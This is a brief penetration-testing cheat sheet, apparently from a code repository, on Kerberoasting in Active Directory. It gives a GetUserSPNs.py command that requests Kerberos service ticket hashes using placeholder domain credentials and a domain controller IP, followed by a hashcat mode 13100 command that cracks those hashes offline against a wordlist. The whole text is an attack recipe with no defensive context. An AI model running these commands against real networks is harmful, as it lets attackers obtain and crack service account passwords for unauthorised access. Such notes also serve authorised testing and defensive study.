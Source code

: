 # kerberoasting

```
sudo GetUserSPNs.py <domain>.local/<user>:<password> -dc-ip <ip> -request
```

COPY THE HASH AND PASTE INTO TXT FILE

```
hashcat -m 13100 <file name> <wordlist>
```

